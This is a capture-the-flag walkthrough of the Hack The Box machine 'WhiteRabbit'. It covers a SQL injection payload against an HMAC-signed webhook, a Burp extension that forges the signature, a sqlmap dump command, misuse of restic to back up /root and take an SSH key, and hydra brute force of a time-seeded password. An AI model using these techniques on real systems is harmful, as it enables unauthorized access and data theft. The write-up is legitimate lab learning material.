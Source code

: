 
**Platform:** Linux  
**IP:** 10.10.11.63  
**Difficulty:** Insane  
**Author:** NoSec  

## Reconnaissance

```bash
22/tcp   open  ssh           OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http          Caddy httpd
2222/tcp open  ssh           OpenSSH 8.9p1 (protocol 2.0)
```

Service info: The OS is likely Linux-based, and the Caddy web server is running.

---

## Preparation

- **Edit hosts file**
    ```bash
    sudo nano /etc/hosts
    ```
    ```
    10.10.11.XX     whiterabbit.htb status.whiterabbit.htb
    ```

- **Clock skew fix (if needed)**
    ```bash
    sudo rdate -n whiterabbit.htb
    ```

---

## Subdomain & Web Exploration

**Subdomain discovery:**

By brute-forcing the `/status/` endpoint on `whiterabbit.htb` (e.g., with gobuster or ffuf), I discovered `status.whiterabbit.htb`, which runs Uptime Kuma. A bit more digging (on [redacted URL]) led me to `/status/temp/`, where I found new subdomains:

- GoPhish: `ddb0<link>.whiterabbit.htb`
- Wiki.js: `a668<link>.whiterabbit.htb`

**Webhook investigation:**

The Wiki.js endpoint (on [redacted URL]) revealed a webhook pointing to `28e<link>.whiterabbit.htb`, which looked suspicious.

---

## Exploitation

### SQLi in Webhook

The webhook required an `x-gophish-signature` HMAC signature. I extracted the secret key from:

Source: [redacted URL]  
Key: `3CWV<key>`

I generated the HMAC using CyberChef ([redacted URL]) and tried an SQLi payload:

```bash
{"campaign_id":2,"email":"test \$"","message":"Clicked Link"}
```

I got a MySQL error, confirming the endpoint is vulnerable!

---

### Burp Suite Automation

Manual testing was too slow, so I wrote a Burp extension that automatically adds the HMAC header:

```python
from burp import IBurpExtender, ISessionHandlingAction
from java.io import PrintWriter
from datetime import datetime
import hashlib, hmac

class BurpExtender(IBurpExtender, ISessionHandlingAction):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("HMAC Header")
        PrintWriter(callbacks.getStdout(), True).println("HMAC Header OK")
        callbacks.registerSessionHandlingAction(self)
        PrintWriter(callbacks.getStdout(), True).println("Session started")
        return

    def getActionName(self):
        return "HMAC Header"

    def performAction(self, currentRequest, macroItems):
        Secret = "3CWV<redacted>"
        stdout = PrintWriter(self._callbacks.getStdout(), True)
        requestInfo = self._helpers.analyzeRequest(currentRequest)
        BodyBytes = currentRequest.getRequest()[requestInfo.getBodyOffset():]
        BodyStr = self._helpers.bytesToString(BodyBytes)
        _hmac = hmac.new(Secret, BodyStr, digestmod=hashlib.sha256).hexdigest()
        headers = requestInfo.getHeaders()
        headers.add("x-gophish-signature: sha256=" + _hmac)
        message = self._helpers.buildHttpMessage(headers, BodyStr)
        currentRequest.setRequest(message)
        return
```

Installed via Burp's Custom Extensions feature:  
🔗 https://www.pentestpartners.com/security-blog/burp-hmac-header-extensions-a-how-to/

---

### SQLmap Attack

I automated the SQLi attack with sqlmap:

```bash
sqlmap -u [redacted URL] POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Link"}' -p email --proxy [redacted URL] --batch --dump --Level=5 --risk=3 -D temp -T command_log --flush
```

| ID  | Date                | Command                                                 |
|-----|---------------------|----------------------------------------------------------|
| 103 | 2024-08-30 14:40:41 | `uname -a`                                              |
| 110 | 2024-08-30 15:16:05 | `restic init --repo rest:[redacted URL]`               |

---

## Privilege Escalation

### Exploiting Restic

I found a Restic repository at [redacted URL] with the password: `ygcsv<redacted>`.  
Using it, I created a backup of `/root/`:

```bash
export RESTIC_PASSWORD=ygcsv<pass>
export RESTIC_REPOSITORY=rest:[redacted URL]
sudo /usr/bin/restic init -r .
sudo restic -r . backup /root/
sudo restic -r . dump latest /root/morpheus
```

I extracted an SSH private key for the user `morpheus` and logged in:

```bash
ssh morpheus@whiterabbit.htb -p 22
```

```bash
morpheus@whiterabbit:/home/morpheus# ls
user.txt
```

✅ User flag acquired!

---

### Neo Password Generation

I found a binary at `/opt/neo-password-generator/neopassword-generator` and analyzed it with Ghidra.  
It uses `gettimeofday()` as a seed:

- Seed formula: `tv_sec * 1000 + tv_usec / 1000`
- Then it generates a 20-character password using `rand() % 62`.

Since Neo executed it at `2024-08-30 14:40:42`, I knew the `tv_sec`, but had to bruteforce the microseconds (0–999).  
Here’s a sample Python brute-force script:

```python
# (Python bruteforce snippet shown earlier)
```

Generated passwords were saved:

```bash
python3 password_generator.py > passwords.txt
hydra -l neo -P passwords.txt ssh://whiterabbit.htb -t 20
```

Password found:
```nginx
WB<pass>
```

Once inside via SSH, I just used:

```bash
sudo -su
```

...and boom — got the root flag:

```bash
root@whiterabbit:~# ls
root.txt
```

---

### 🧠 Notes & Reflections – What I learned from this box

- **Webhook & SQLi abuse:** The vulnerabilities in Uptime Kuma were exciting to explore, especially with the custom HMAC handling.  
- **Restic exploitation:** Surprisingly, this backup tool enabled full privilege escalation.  
- **Binary analysis:** Brute-forcing a password generated via `gettimeofday()` required real brainwork.  
- **Automation:** Using Burp Suite and sqlmap saved tons of time, especially dealing with the HMAC headers.

---

### ⚠️ Mistakes, Pitfalls & Tips

- **Watch your clock skew!** If the system time is off, SSH and other steps can fail.  
- **Be patient with brute-force.** It took a while to find the `/status/temp/` endpoint — using the right wordlist matters.  
- **Document without spoilers.** Don’t give everything away so others can still enjoy the challenge.  
- **Double-check everything.** I verified the HMAC key twice before launching sqlmap.

---

### ✅ Summary

WhiteRabbit is a beautifully crafted box — it walks you through solid web exploitation and creative Linux privesc.  
The combination of Uptime Kuma, SQLi, Restic, and binary analysis makes this a real treat for any pentester.

Both flags captured — user and root — so I’m very satisfied. 🚀

---

**Highly recommended** for anyone who enjoys challenges and prefers creative Linux pwns over AD boxes.  
If you’ve got questions — hit me up! 💬
